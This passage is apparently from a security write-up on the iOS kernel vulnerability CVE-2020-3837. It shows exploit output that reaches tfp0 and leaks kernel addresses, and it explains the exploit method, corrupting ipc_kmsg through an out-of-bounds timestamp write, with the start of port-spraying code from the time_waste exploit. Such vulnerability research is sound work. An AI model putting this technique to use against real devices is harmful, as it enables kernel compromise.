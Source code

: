 As shown in execution output below, segment list is always positioned before command buffer,

```cpp
iPhone-8--1201:~ root# CVE-2020-3837 
[*] alloc_shmem ret: 0x0 ((os/kern) successful)
[i] offsets selected for iOS 12.0.1
host: 0xb03
[*] tfp0: 0xc03
[*] get_kbase ret: 0, kbase: 0xfffffff018604000, kslide: 0x11600000
[*] Found segment_list_shmem in kernel: 0xffffffe03231c000
[*] Found command_buffer_shmem in kernel: 0xffffffe032320000
[*] command_buffer_shmem_data_kva: 0xffffffe032320000
[*] segment_list_shmem_data_kva: 0xffffffe03231c000
```

and structured data is arranged as follows.

![image.png](pics/image.png)

# Exploit method

The main idea is to abuse an out-of-bounds timestamp write to corrupt size field of `ipc_kmsg`. We'll walk through this using Jakeashacks’ improved exploit code, time_waste project.

First, create 200 ports with `new_mach_port` function.

`new_mach_port` first creates new mach port with receive right, then derives send right from that receive right and inserts it into same task namespace so the port ends up with both send and receive rights.

After that, it appears to set port’s `mpl_qlimit` field to increase port queue limit to `MACH_PORT_QLIMIT_LARGE` (1024).

```cpp
mach_port_t new_mach_port() {
    mach_port_t port = MACH_PORT_NULL;
    kern_return_t ret = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &port);
    if (ret) {
        printf("[-] failed to allocate port\n");
        return MACH_PORT_NULL;
    }
    
    mach_port_insert_right(mach_task_self(), port, port, MACH_MSG_TYPE_MAKE_SEND);
    if (ret) {
        printf("[-] failed to insert right\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
```